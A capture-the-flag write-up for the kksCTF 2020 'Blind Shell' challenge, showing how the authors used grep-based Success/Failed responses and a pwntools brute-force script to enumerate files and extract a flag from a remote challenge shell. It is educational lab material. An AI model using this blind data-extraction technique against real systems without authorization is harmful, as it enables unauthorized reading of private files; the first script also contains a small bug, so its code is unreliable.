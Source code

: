 # Blind Shell

- Category: misc  
- Points: 345  
- Solved by: 4cul, 01baf, crypt3d4ta

## Problem

It's simple enough, either you've succeeded or you've failed.  
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.  
When we execute a command we have a fixed output which consists of  
"Success!" in case the execution is successful and "Failed!"  
on the other hand.

For example:

```  
$cat  
Success!  
$c  
Failed!  
```

The idea is to find files in the current directory, using the terminal output
to our advantage.  
With the aid of ls, wc, and grep, it’s possible to see inside the current
directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of
commands:

```  
$ ls | wc -l | grep 1  
Failed!  
$ ls | wc -l | grep 2  
Failed!  
$ ls | wc -l | grep 3  
Success!  
```

And to see the name of each file:  
  
First we’ve looked with what letter each filename begins:

```  
$ ls | grep ^f | wc -l | grep 1  
Success!  
$ ls | grep ^v | wc -l | grep 1  
Failed!  
$ ls | grep ^m | wc -l | grep 1  
Success!  
$ ls | grep ^s | wc -l | grep 1  
Success!  
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’
and ‘s’.  
  
Second, using this information, we’ve run the following commands, in order to
know their full names:

```  
$ ls | grep ^f  
Success!  
$ ls | grep ^fl  
Success!  
$ ls | grep ^fla  
Success!  
$ ls | grep ^flag\.t  
Success!  
$ ls | grep ^flag\.txt  
Success!  
```

The obtained files were:  
  
   - flag.txt: 	text file  
  
   - server.py: 	python script  
  
   - maybehere: 	directory

The same procedure is used to read from flag.txt:

```  
from pwn import *

alphabet =
'_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)  
conn.sendline("cat flag.txt | grep ^L")  
conn.recvline()

read = 'L'

while True:  
   for i in alphabet:  
       test = read + i  
       print(test)  
       conn.sendline("cat flag.txt | grep " + test)  
       if chr(r[2]) == 'S':  
           read = test  
           break

print("Here's your content: ", read)  
```  
After launching the script we obtain:

```  
Look_around,maybe_here  
```

The suspect was that inside maybehere directory there was something
interesting;  
so we’ve tried to change the current directory into ./maybehere, but we’ve
noticed  
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to
type ‘cd /’,  
but the current working directory remains the same, even if it returns
“Success!”.  
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into  
/maybehere there was the file flag.txt; so we’ve run the same script in order
to get its content,  
and we’ve finally discovered the flag

Script:

```  
from pwn import *

alphabet =
'_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)  
conn.sendline("cat maybehere/flag.txt | grep kks{")  
conn.recvline()

flag = 'kks{'

while True:  
   for i in alphabet:  
       test = flag + i  
       print(test)  
       conn.sendline("cat maybehere/flag.txt | grep " + test)  
       r = conn.recvline()  
       print(r)  
       if chr(r[2]) == 'S':  
           flag = test  
           break

   if flag[-1] == '}':  
       break

print("Here's your flag: ", flag)  
```

### Flag  
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```  

Original writeup
(https://github.com/r00tstici/writeups/tree/master/kksCTF_2020/Blind%20Shell).